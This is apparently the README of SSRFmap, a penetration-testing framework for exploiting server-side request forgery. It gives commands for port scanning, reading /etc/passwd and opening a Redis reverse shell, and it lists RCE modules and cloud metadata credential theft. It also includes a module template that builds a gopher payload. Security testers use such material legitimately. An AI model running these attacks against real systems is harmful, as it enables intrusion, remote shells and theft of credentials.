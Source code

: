 # SSRFmap

SSRF are often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## Guide / RTFM

```powershell
usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [--lhost LHOST]
                  [--lport LPORT]

optional arguments:
  -h, --help     show this help message and exit
  -r REQFILE     SSRF Request file
  -p PARAM       SSRF Parameter to target
  -m MODULES     SSRF Modules to enable
  -l HANDLER     Start an handler for a reverse shell
  --lhost LHOST  LHOST reverse shell
  --lport LPORT  LPORT reverse shell
```

The default way to use this script is the following.

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan

# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

A quick way to test the framework can be done with `data/example.py` SSRF service.

```powershell
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

## Modules

The following modules are already implemented and can be used with the `-m` argument.

| Name           | Description    |
| :------------- | :------------- |
| `fastcgi`      | FastCGI RCE |
| `redis`        | Redis RCE |
| `github`       | Github Enterprise RCE < 2.8.7 |
| `portscan`     | Scan ports for the host |
| `readfiles`    | Read files such as `/etc/passwd` |

## Contribute

I <3 pull requests :)
Feel free to add any feature listed below or a new service.

- --level arg - ability to tweak payloads in order to bypass some IDS/WAF. E.g: `127.0.0.1 -> [::] -> 0000: -> ...`
- networkscan - same a portscan, we want to discover machines in the same network
- aws and other cloud providers - extract sensitive data from http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy and more
- sockserver  - SSRF SOCK proxy server - https://github.com/iamultra/ssrfsocks
- handle request with file in requester

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name        = "servicename in lowercase"
description = "ServiceName RCE - What does it do"
author      = "Name or pseudo of the author"

class exploit():

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Data for the service
        ip   = "127.0.0.1"
        port = "6379"
        data = "*1%0d%0a$8%0d%0af[...]save%0d%0aquit%0d%0a"
        payload = wrapper_gopher(data, ip , port)

        # Handle args for reverse shell
        if args.lhost == None: payload = payload.replace("SERVER_HOST", input("Server Host:"))
        else:                  payload = payload.replace("SERVER_HOST", args.lhost)

        if args.lport == None: payload = payload.replace("SERVER_PORT", input("Server Port:"))
        else:                  payload = payload.replace("SERVER_PORT", args.lport)

        # Send the payload
        r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or with `buymeacoffee.com`

[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/swissky)

## Thanks to the contributors

- ???

## Inspired by

- [All you need to know about SSRF and how may we write tools to do auto-detect - Auxy](https://medium.com/bugbountywriteup/the-design-and-implementation-of-ssrf-attack-framework-550e9fda16ea)
- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)